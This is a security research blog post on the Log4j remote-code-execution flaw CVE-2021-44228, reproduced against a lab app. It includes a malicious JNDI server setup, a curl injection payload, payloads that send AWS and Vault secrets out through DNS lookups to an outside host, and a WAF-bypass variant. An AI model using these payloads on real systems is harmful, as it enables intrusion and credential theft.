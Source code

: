 ```yaml
---
layout: post
title:  "Apache Log4j RCE 0day: CVE-2021-44228"
date:   2021-12-11 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, log4j, cve-2021-44228
description: Research analysis and develop a working exploit poc script 
---
```


Reference:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java


## Introduction Apache Log4j and Description of the vulnerability
Apache Log4j is one of the most popular logging library, widely used in Java web applications and Apache products ( such as Apeche Struts, Apache Solr, ... ).

Because of the nature of the library is logging, the data being logged originates from user inputs. If the user input contains some special characters and logged by `Log4j`, the Java method `lookup` will be called to execute a user-defined remote class in the LDAP server.
This will eventually becomes RCE ( depends on environment configrations ) 

JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default meaning JNDI cannot load remote code using LDAP.

## Affected version 

Apache Log4j 2.x <= 2.15.0-rc1

## Affected Software

There have been reports said that Steam, Apple and Twitter vulnerable to this attack, and other softwares like:
- Apache Struts
- Apache Solr
- Elasticsearch
- Ghidra

...

## Exploitation

### 1. Reproduce with vulnerable app
Link to the vulnerable app that use `log4j`: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

Start the app:
```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Example of vulnerable code:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
```

Setup malicious [JDNI server](https://github.com/welk1n/JNDI-Injection-Exploit)

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned" -A "0.0.0.0"
```

Sending payload to the vulnerable web app:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ip>:1389/<payload>}'
```

Response from malicious JDNI server:

<img width="1117" alt="image" src="https://user-images.githubusercontent.com/37280106/145718737-a635ce03-5265-4b49-a3e6-3bfaf49a46e0.png">

Log from the vulnerable app:
```
2021-12-12 15:29:32.630  INFO 1 --- [nio-8080-exec-5] HelloWorld                               : Received a request for API version Reference Class Name: foo

```

### 2. Exploit steps

1. Data from user inputs get logged from the back-end that using `log4j`
2. User send malicious payload that get logged in server: `${jdni:ldap://<attacker_ip>/a` 
3. The Log4j vulnerablity triggered by this payload and server makes a request to `<attacker_ip>` server via JDNI 
4. The attacker's server response a path to a remote Java class file ( `https://attack-server/Exploit.class` ) which injected to victim's server process
5. The Injected payload got triggered, allows an attacker to gain remote code execution.

### 3. Extract environment from vulnerable server
```
${jdni:ldap://${env:USER}.collabolatorendpoint.net/a}
${jdni:ldap://${env:AWS_SECRET_ACCESS_KEY}.collabolatorendpoint.net/a}
${jdni:ldap://${env:VAULT_KEY}.collabolatorendpoint.net/a}
...
```

### 4. Bypass WAF ( Cloudflare, ... )

```
${${lower:j}dni:${lower:l}dap://${env:USER}.collabolatorendpoint.net/a}
```

## Mitigation
- Update to log4j version `2.15.0-rc2` 
- Block all untrusted outbound traffic
- Add "log4j.format.msg.nolookups=true" global configuration

